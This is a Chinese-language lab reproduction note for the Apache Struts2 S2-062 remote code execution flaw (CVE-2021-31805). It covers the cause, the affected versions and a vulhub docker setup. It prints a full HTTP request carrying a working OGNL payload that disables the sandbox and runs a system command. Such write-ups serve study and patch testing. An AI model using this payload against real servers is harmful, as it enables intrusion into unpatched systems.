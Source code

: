 # Apache Struts2 S2-062 远程代码执行漏洞 CVE-2021-31805

## 漏洞描述

该漏洞由于对CVE-2020-17530的修复不完整造成的，CVE-2020-17530漏洞是由于Struts2 会对某些标签属性(比如id) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 %{x} 且 其中x 的值用户可控时，用户再传入一个 %{payload} 即可造成OGNL表达式执行。在CVE-2021-31805漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的OGNL表达式执行，导致远程代码执行。

## 漏洞影响

<a-checkbox checked>Struts 2.0.0 - Struts 2.5.29</a-checkbox>

## 环境搭建

```php
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-061
docker-compose up -d
```

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650080283076-09f786e3-30aa-49f1-9650-175b50579d80.png)

发送请求包

```php
POST /index.action HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650080313088-0b8b3c2a-61c0-41be-aaca-f1a7c1fb391c.png)